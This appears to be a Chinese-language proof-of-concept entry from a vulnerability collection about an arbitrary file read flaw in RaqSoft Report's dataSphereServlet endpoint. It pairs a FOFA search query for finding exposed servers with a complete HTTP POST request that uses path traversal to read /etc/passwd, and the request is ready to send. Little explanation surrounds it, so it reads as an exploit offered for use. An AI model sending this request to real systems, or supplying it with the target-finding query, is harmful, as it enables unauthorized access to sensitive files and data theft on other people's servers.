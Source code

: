 # 润乾报表dataSphereServlet接口存在任意文件读取漏洞

润乾报表dataSphereServlet接口存在任意文件读取漏洞，可读取系统敏感文件导致数据泄露。

## fofa

```yaml
body="/raqsoft"
```

## poc

```yaml
POST /servlet/dataSphereServlet?action=11 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Sec-GPC: 1
Connection: close
sec-ch-ua-platform: "macOS"
sec-ch-ua: "Google Chrome";v="118", "Chromium";v="118", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Content-Length: 63
Content-Type: application/x-www-form-urlencoded

path=../../../../../../../../../../../etc/passwd&content=&mode=
```


